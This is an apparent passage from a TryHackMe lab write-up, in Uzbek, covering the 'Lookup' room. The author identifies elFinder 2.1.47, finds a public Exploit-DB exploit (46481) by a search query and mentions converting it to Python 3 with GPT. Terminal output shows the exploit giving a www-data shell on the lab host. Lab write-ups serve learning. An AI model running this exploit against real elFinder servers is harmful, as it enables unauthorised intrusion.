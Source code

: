 Panel haqida ma'lumot olish uchun ushbu tugmani bosing.

![](https://raw.githubusercontent.com/akhatkulov/Write-Ups/refs/heads/main/TryHackme/Pictures/lookup_3.jpg)

## Web exploit (hacking)

Versiya **elFinder 2.1.47** ekan

Exploitni google orqali qidirish:

```
site:exploit-db.com elFinder 2.1.47
```

Va topilgan exploit uchun manzil:
```
https://www.exploit-db.com/exploits/46481
```

Bu expoit python2da yozilgan ekan mening noutbukimda python2 mavjud bo'lmagani uchun python3ga konvertatsiya qilib oldim. (GPT orqali)



```
╭─mete   󰉖 ~/THM/THM-LABS/0406-2025
╰─ ❯❯ python3 elfinder_exploit-3.py http://files.lookup.thm/elFinder/
[*] Uploading the malicious image...
[*] Running the payload...
[+] Pwned! :)
[+] Getting the shell...
$ whoami
www-data

$ 
```
